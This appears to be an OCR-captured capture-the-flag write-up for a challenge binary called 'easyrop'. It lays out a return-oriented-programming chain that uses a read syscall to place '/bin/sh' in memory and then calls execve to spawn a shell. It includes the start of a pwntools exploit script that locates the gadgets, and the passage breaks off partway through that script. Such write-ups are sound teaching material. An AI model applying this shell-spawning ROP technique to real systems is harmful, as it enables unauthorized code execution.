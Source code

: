 | ...                    | 8 (#bytes to read)                         |
| ...                    | 0 (read syscall code)                      |
| ...                    | g2 address                                 |
| ...                    | junk                                       |
| ...                    | g1 address                                 |
| ...                    | global variable address (/bin/sh location) |
| ...                    | pointer to zero (rsi content)              |
| ...                    | pointer to zero (rdx content)              |
| ...                    | 0x3b (execve syscall code)                 |
| ...                    | g3 address                                 |

Basically we want to perform a read to put '/bin/sh' in memory, and pass it as argument to the execve syscall in order to be able to spawn a shell.

Note that:

* g1 is a gadget that performs the following operations:
  
  `pop rdi, pop rsi, pop rdx, pop rax, ret`

* g2:
  
  `syscall, nop, nop, pop rbp, ret `
  
  We need a syscall gadget that also performs a ret in order to be able to execute another syscall (execve /bin/sh) after the read.

* g3: `syscall`

The newline character of `/bin/sh\x00` makes the syscall fail (it will return -1 in `rax`). Solution: pass the string with `pwntools`. Actual exploit:

```python
#!/usr/bin/python3
from pwn import *
from time import sleep

# global variables
binary = './easyrop'
port = 2015
debug = False
remote_enabled = False
delay = 0.05

# initializing address variables
# note that the binary is statically linked
e = ELF(binary)
index = e.symbols['index']
binsh_addr = index+8
zeros_addr = binsh_addr+8

rop = ROP(e)
magic_gadget = rop.find_gadget(['pop rdi','pop rsi','pop rdx','pop rax','ret'])
syscall = rop.find_gadget(['syscall'])
syscall_ret = rop.find_gadget(['syscall','nop','pop','rbp','ret'])
ret = rop.find_gadget(['ret'])

# checking that everything is all right
print('____________________________________')
print('address of all in one gadget: {} - {}'.format(hex(magic_gadget[0]), p64(int(magic_gadget[0]))))
```